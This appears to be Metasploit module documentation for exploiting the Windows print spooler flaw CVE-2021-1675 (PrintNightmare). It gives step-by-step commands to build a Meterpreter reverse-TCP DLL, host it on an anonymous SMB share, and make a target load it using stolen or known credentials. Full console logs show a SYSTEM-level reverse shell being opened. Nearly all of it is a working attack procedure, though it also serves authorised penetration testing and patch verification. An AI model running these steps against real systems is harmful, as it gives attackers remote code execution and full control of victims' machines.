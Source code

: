 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload.
    1. `sudo apt-get install -y samba samba-common`
    1. `sudo cp -pf /etc/samba/smb.conf /etc/samba/smb.conf.bak` to backup your existing config.
    1. `sudo mkdir /var/public`
    1. Add the following into the end of the `/etc/samba/smb.conf` file:
       ```
       [public]
	    comment = Public Directories
	    path = /var/public
	    guest ok = Yes
       ```
    1. Restart Samba with `sudo service smbd restart`.
1. Generate your DLL and place the file under `/var/public`.
    ```
    msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > use payload/windows/x64/meterpreter/reverse_tcp
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > show options

    Module options (payload/windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST                      yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port

    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.224.128
    LHOST => 192.168.224.128
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT 8822
    LPORT => 8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
    [*] Payload Handler Started as Job 0

    [*] Started reverse TCP handler on 192.168.224.128:8822
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /home/gwillcox/payload.dll
    [*] Writing 8704 bytes to /home/gwillcox/payload.dll...
    msf6 payload(windows/x64/meterpreter/reverse_tcp) > sudo mv /home/gwillcox/payload.dll /var/public/payload.dll
    ```
1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH
The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target. The DLL will be copied to the remote server using the same filename.

If the DLL is a payload generated by Metasploit, know that only a single session can be active per target at any time
due to how these payloads are synchronized. If the session closes, dies, or the user migrates to a new process, the same
DLL can be used again otherwise a new DLL will need to be created for each simultaneously active session. One DLL can
however be used to establish multiple sessions simultaneously so long as each session is on a different target.

### ReconnectDelay
*This is an advanced option.*

A delay in seconds to wait before reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 192.168.159.128:4444

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled so that they are escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
